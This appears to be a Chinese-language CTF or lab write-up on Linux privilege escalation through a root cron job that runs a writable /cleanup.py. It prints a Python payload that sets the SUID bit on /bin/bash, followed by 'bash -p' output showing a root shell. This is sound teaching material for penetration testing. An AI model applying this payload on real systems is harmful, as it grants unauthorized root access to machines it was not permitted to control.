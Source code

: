 【crontab 】是 Linux 的计划任务，它的服务是【 crond 】，配置文件为【 etc /crontab 】，可以通过编辑此配置文件配置定期执行程序或命令，也可以使用【 crontab 】命令配置。

```bash
mark@any:/tmp$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
*/1  *  * * *   root    /cleanup.py
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

查看计划任务，发现设置了root 用户每分钟都会执行根目录下的【 cleanup.py 】文件，此文件以 root身份运行 。若可以编辑此文件，则可以通过修改此文件添加提权命令，待计划任务执行便可以达到提权的目的。

```python
#!/usr/bin/env python
import os
import sys
try:
	os.system('chmod u+s /bin/bash')#给bash设置 SUID ，这样便可以利用计划任务将bash命令设置 SUID ，用 SUID 提权便可
except:
	sys.exit()
```

查看/bin/bash属主，发现执行权限由【 x 】变成了【 s 】，也就是设置了 SUIDv ，这时运行【 bash -p 】命令便可以以root 权限打开一个 bash shell ，在新开的 Shell 里运行【 whoami 】命令发现当前权限已经是 root 。

```bash
mark@any:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16 2021 /bin/bash
mark@any:/tmp$ bash -p
bash-4.3#whoami
root
```
